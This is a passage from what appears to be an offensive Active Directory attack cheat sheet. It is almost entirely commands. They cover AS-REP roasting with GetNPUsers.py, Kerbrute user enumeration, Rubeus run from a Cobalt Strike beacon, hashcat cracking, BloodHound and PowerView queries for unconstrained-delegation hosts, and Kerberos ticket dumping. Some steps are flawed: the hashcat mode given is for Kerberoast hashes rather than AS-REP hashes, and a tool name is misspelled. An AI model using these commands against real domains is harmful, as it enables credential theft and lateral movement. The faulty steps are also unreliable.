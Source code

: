 ```
proxychains GetNPUsers.py vault.io/ -usersfile users.txt -dc-ip 10.0.0.1
```

Kerbrute

```
$ kerbrute userenum --dc 10.0.0.1 -d vault.io users.txt
```

Rubeus

```
beacon> execute-assembly /opt/tools/Rubues.exe asreproast /format:hashcat
[...]
```

Crack

```
$ hashcat -a 0 -m 13100
```

#### Unconstrained Delegation

Find computers assigned unconstrained delegation

```
# CS
beacon> powershell-import /opt/tools/PowerSploit/PowerView.ps1
beacon> Get-DomainComputer -Unconstrained -Properties DnsHostName
[...]

# BloodHound
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

# shortest path to unconstrained from owned
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

From the unconstrained machine

```
# Rubeus list tickets
beacon> execute-assembly /opt/tools/Rubeus.exe triage

# Rubeus dump all
beacon> execute-assembly /opt/tools/Rubeus.exe dump /nowrap

